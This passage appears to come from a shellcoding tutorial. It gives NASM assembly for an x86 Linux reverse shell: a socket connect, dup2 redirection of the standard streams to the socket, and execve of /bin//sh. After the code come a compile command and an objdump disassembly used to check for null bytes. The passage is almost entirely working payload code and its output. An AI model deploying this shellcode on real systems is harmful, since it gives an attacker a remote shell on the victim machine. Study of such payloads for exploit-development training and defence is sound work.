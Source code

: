 ```asm

	mov ecx, esp
	int 0x80	; socketcall(SYS_CONNECT, {sockfd, sock_addr, addrlen})


	;******************;
	; redirect outputs ;
	;******************;


	mov ebx, edi	; sockfd arg
	xor ecx, ecx
	mov cl, 0x2	; set up counter

dup:
	mov al, 0x3f	; dup2
	int 0x80	; dup2(sockfd, [cl])
	dec ecx
	jns dup
	

	;*****************;
	; execute a shell ;
	;*****************;


	push edx	; null terminate the string
	push 0x68732f2f	; push hs//
	push 0x6e69622f	; push nib/

	mov ebx, esp	; move null terminated string into register

	mov ecx, edx	; 0x0
	mov al, 0xB	; syscall - execve
	int 0x80	; execve("/bin//sh", NULL, NULL)
```
Compile it:
```shell
./compile.sh reverse_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
Check for null bytes:
```shell
objdump -d reverse_shell -M intel

reverse_shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 db                	xor    ebx,ebx
 8048084:	31 c9                	xor    ecx,ecx
 8048086:	31 d2                	xor    edx,edx
 8048088:	b0 66                	mov    al,0x66
 804808a:	b3 01                	mov    bl,0x1
 804808c:	51                   	push   ecx
 804808d:	53                   	push   ebx
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
```